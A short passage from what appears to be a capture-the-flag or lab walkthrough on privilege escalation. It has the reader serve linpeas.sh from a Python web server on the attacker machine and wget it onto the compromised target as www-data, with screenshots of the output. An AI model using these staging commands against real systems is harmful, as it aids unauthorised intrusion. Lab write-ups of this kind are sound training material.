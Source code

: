 # Privilege escalation
We are now going to upload linpeas.sh to check if it can help us to find a way to escalate privileges.</br>
First start a python webserver on port 80.
```
python3 -m http.server 80
```
On www-data user in your machine, navigate to tmp directory and type
```
wget http://IP_of_your_machine:80/linpeas.sh
```
The script is now on the remote machine change its permission and execute it.

<img alt="" class="bg hc hd c" width="1000" height="450" loading="lazy" role="presentation" src="https://i.ibb.co/rQWqcWf/Academy-8.png"></img>

The output is as follows:

<img alt="" class="bg hc hd c" width="500" height="40" loading="lazy" role="presentation" src="https://miro.medium.com/v2/resize:fit:640/format:webp/0*1O5igU4EkNrx9N_0.png"></img>
